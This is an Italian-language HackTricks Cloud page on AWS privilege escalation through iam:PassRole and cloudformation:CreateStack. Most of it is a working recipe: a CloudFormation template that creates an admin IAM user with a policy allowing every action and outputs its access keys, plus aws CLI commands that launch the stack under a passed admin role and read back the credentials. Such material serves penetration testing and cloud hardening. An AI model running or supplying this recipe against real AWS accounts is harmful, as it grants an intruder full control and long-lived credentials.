 # iam:PassRole, cloudformation:CreateStack,e cloudformation:DescribeStacks

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Un attaccante potrebbe ad esempio utilizzare un **cloudformation template** che genera **chiavi per un utente admin** come:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description" : "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": "*"
}]
},
"Users": [{
"Ref": "AdminUser"
}]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": [
"MyUserKeys",
"SecretAccessKey"
]
},
"Description": "Secret Key of Admin User"
}
}
}
```
Poi **genera lo stack cloudformation**:
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**Aspetta un paio di minuti** affinché lo stack venga generato e poi **ottieni l'output** dello stack dove **sono memorizzate le credenziali**:
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### Riferimenti

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
